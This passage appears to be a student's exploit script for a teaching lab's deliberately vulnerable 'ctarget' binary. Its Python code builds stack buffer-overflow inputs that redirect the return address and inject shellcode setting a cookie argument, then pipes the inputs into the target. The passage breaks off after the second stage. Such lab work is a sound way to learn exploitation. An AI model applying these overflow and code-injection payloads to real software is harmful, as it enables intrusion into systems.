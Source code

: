 
## Final Exploit Codes

### `Excode-Ctarget.py`

```py
import struct
import os

WORD_SIZE = 8

COOKIE = 0x6eb933c2

GETBUF_STACK_OFFSET = 0x18
GETBUF_RSP_ADDR = 0x55641148

def p64(x: int) -> bytes:
    return struct.pack("<Q", x).ljust(WORD_SIZE, b'\x00')

def byte2sphex(x: bytes) -> str:
    string = ""
    for ch in x:
        string += hex(ch)[2:].rjust(2, '0') + ' '
    return string

def cookie_to_hex(x: int) -> bytes:
    return bytes(hex(x)[2:], encoding='ascii')

### Stage 1
def phase_1():
    TOUCH_1_ADDR = 0x4016d6
    Ex = b''
    Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')
    Ex += p64(TOUCH_1_ADDR)

    with open("exploit.txt", 'w') as f:
        f.write(byte2sphex(Ex))

    os.system("./hex2raw < exploit.txt | ./ctarget")

### Stage 2
def phase_2():
    TOUCH_2_ADDR = 0x401702
    
    """
    Ex = asm(
        rf'''
        mov rdi, {COOKIE}
        push {TOUCH_2_ADDR}
        ret
        ''',
        arch='amd64',
        os='linux'
    )
    """

    Ex = b"\x48\xC7\xC7\xC2\x33\xB9\x6E\x68\x02\x17\x40\x00\xC3"
    Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')
    Ex += p64(GETBUF_RSP_ADDR)

    with open("exploit.txt", 'w') as f:
        f.write(byte2sphex(Ex))

```